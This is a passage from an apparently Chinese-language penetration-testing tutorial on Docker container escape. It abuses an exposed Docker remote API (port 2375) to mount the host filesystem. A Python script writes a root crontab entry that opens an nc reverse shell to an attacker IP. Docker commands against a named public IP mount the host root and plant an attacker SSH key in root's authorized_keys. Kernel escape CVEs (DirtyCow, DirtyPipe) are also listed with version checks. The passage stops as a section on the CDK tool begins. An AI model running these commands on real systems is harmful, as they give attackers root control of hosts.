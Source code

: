 client = docker.DockerClient(base_url='http://192.168.43.145:2375/')  
data = client.containers.run('alpine:latest', r'''sh -c "echo '*/1 * * * *
/usr/bin/nc 192.168.43.133 8888 -e /bin/sh' >> /tmp/etc/crontabs/root" ''',
remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})  

在kali上直接执行脚本，等一段时间shell就回来了：

这儿原理(其实就是解释python脚本编写思路：Docker随意启动一个容器(这里是远程连接让目标机器启动，不是自己本地启动容器)，并将宿主机的 /etc
目录挂载到容器中，便可以任意读写文件了。可以将命令写入 crontab 配置文件，进行反弹shell。)

![]()b2.也可以直接写.ssh密钥来得快些：  

下面是打ichunqiu的靶场中遇到的，直接写ssh如下：

docker -H tpc://47.92.6.145:2375 images  
docker -H tcp://47.92.6.145:2375 run -it -v /:/mnt --entrypoiont /bin/bash
ubuntu:18.04  
ssh-keygen -t rsa （在自己攻击机上生成）  
cd /mnt/root/.ssh  
echo "ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQDWn5r11i1qX75uejYftnvxuo9VD+i8Y/V1XSxqm4z3zgCRdvO1lyaE+sY4eR6UN8MU5MpkqhT6duQ7saKDsSVYuhRWrbl7ZISRNzDZ728Q6QgAjysOlmcMbNWwS6V1ibSM8qGozQoSRXmbdzvA4J8j+UqiQ0DkBOUjyhvc2dUqEeSX7hAW8fyeTsMDmzySRWsIg7SRNW1Yp3PZsogeqpKVohoa8BWWfay4VXWBZgU6z9Nd21NIqGI32WkYw7Df/RdGXtUKDPyD8hRlpi5wXHjUR/z7ogvCR2XBu8VTKAvesmf/mR1psBUiaOWYyYgTs4hXbDok5um3nrWnUgt54FB9
root@VM-12-8-centos" >>authorized_keys  

然后本地直接使用id_rsa直接登录上宿主机服务器。

  
0x03相关程序漏洞  

在teamsSix文章中提到过「相关程序漏洞」这种逃逸方法需要根据目标 Docker 的版本去判断。  

目前在容器内部还无法判断Docker版本(不知道咋判断，知道的大佬可以教教)，因而并不适用于实战，此处不再列出。

  
0x04内核漏洞  

以下漏洞可以使用如下脚本进行检测：

git clone https://github.com/teamssix/container-escape-check.git

1、CVE-2016-5195 DirtyCow 逃逸

执行 uname -r 命令，如果在 2.6.22 <= 版本 <= 4.8.3 之间说明可能存在 CVE-2016-5195 DirtyCow 漏洞。

2、CVE-2020-14386

执行 uname -r 命令，如果在 4.6 <= 版本 < 5.9 之间说明可能存在 CVE-2020-14386 漏洞。

3、CVE-2022-0847 DirtyPipe 逃逸

执行 uname -r 命令，如果在 5.8 <= 版本 < 5.10.102 < 版本 < 5.15.25 < 版本 < 5.16.11 之间说明可能存在
CVE-2022-0847 DirtyPipe 漏洞。

  
0x05从CDK工具理解逃逸  

这一章纯属个人爱好，大家不感兴趣可直接浏览结束。

以下以cdk中的procfs的代码利用为例：
